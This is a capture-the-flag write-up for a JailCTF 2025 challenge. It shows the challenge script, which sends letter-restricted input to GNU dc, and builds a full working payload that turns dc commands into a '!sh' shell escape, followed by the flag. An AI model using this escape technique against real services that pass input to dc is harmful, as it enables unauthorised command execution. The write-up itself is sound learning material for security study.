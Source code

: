 ```yaml
---
layout: writeup
parent: JailCTF 2025
tags: ["misc"]
---
```

<h1>{{ page.title | downcase }} {% for tag in page.tags %}<span class="category-tag">{{ tag }}</span>{% endfor %}</h1>
```
a "desk calculator" ... using "reverse polish notation" ... yeah this was not on my bucket list for year
```

chal.py:
```python
#!/usr/bin/python3

import os

inp = input('> ')
if any(c not in 'ABCDEFGHIJKLMNOPQRSTUVWXYZabcdefghijklmnopqrstuvwxy' for c in inp):  # they gave me no blue raspberry dawg
    print('bad. dont even try using lowercase z')
    exit(1)

with open('/tmp/code.txt', 'w') as f:
    f.write(inp)

os.system(f'/usr/bin/dc -f /tmp/code.txt')

print("stop. you're done. get out.")
```

## dc?

The core of this challenge lies within gaining RCE access within `dc`, a GNU "desk calculator" preinstalled on many linux systems.

In initial observation of [the manpage](https://www.gnu.org/software/bc/manual/dc-1.05/html_mono/dc.html), we can see that dc has a variety of commands that surround the modification of its two native types, integers and strings. Given the limited charset given by the challenge, we are restricted to certain commands within `dc`.

## The attack
Some notable commands are:
```
       x      Pops a value off the stack and executes it as a macro.  Normally it should  be
              a string; if it is a number, it is simply pushed back onto the stack.  For ex‐
              ample, [1p]x executes the macro 1p which pushes 1 on the stack and prints 1 on
              a separate line.

       ?      Reads  a  line from the terminal and executes it.  This command allows a macro
              to request input from the user.

       O      Pushes the current output radix on the stack.

       k      Pops the value off the top of the stack and uses it to set the precision.

       v      Pops one value, computes its square root, and pushes that. The precision
              value specifies the number of fraction digits in the result.

       Z      Pops a value off the stack, calculates the number of digits it has (or number
              of characters, if it is a string) and pushes that number.

       a      The mnemonic for this is somewhat erroneous: asciify. The top-of-stack is popped.
              If it was a number, then the low-order byte of this number is converted into a
              string and pushed onto the stack. Otherwise the top-of-stack was a string, and
              the first character of that string is pushed back. (This command is a GNU
              extension.)
```

### Method
The end goal is to be able to execute `sh`, which without the charset restriction can be ran with `!sh`. In order to get to this point, we can use the `?` command to manually input `!sh`. However, since `?` is also not in our charset, we can use `a` to convert an integer value to the char `?`. Since we cannot use integers or most arithmetic operators, the general approach is:

1. Start with `O` which by default the output radix is set to 10. This will push the value 10 onto the stack
2. Run `k` which will change the precision from 0->10
3. From here, we can run `O` to push 10 again, `v` to compute the square root, `Z` to calculate the number of digits (which will always be the current precision + 1 for the integer part) then `k` again. Each iteration of `OvZk` will increment the precision by one, which we can use to create an arbitrary number larger than 10. In our case, the `?` character has ASCII code of 63, so we run `OvZk` 52 times
4. Once the value on the stack is the integer 63, we can run `a` to convert it to the string `?` and then `x` to execute it
5. `x` will execute the string `?` which we can then manually input `!sh` (or really anything at this point) and get the flag

### Payload
`Ok` + `OvZk`*52 + `OvZax` = `OkOvZkOvZkOvZkOvZkOvZkOvZkOvZkOvZkOvZkOvZkOvZkOvZkOvZkOvZkOvZkOvZkOvZkOvZkOvZkOvZkOvZkOvZkOvZkOvZkOvZkOvZkOvZkOvZkOvZkOvZkOvZkOvZkOvZkOvZkOvZkOvZkOvZkOvZkOvZkOvZkOvZkOvZkOvZkOvZkOvZkOvZkOvZkOvZkOvZkOvZkOvZkOvZkOvZax`

After running payload, manually input `!sh`

`jail{but_does_your_desk_calculator_have_rce?_5c9cff7b71fc447d}
`